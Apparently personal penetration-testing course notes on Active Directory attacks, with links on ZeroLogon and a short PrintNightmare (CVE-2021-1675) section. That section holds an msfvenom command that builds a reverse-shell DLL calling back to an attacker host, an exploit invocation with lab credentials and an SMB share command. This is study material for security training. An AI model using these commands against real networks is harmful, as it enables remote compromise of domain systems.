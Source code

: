 ![[Pasted image 20241116232234.png]]




- [ ] Abusing Zero Logon

What is ZeroLogon? - [https://www.trendmicro.com/en_us/what-is/zerologon.html](https://www.trendmicro.com/en_us/what-is/zerologon.html)

dirkjanm CVE-2020-1472 - [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

SecuraBV ZeroLogon Checker - [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)





- [ ] Print Nightmare (CVE-2021-1675)

```
Msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=5555 -f dll > shell.dll

```

```
python3 CVE-2021-1675.py marvel.local/fcastle:Password1@<Domain_ip> 
'\\<SMB_share>'
```

```
smbserver.py share `pwd` -smb2support
```


It is taking advantage of the print spooler. [i.e. similar to Prince Spoof]


cube0x0 RCE - [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)

calebstewart LPE - [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)



Additional AD Case Studies

https://tcm-sec.com/pentest-tales-001-you-spent-how-much-on-security/

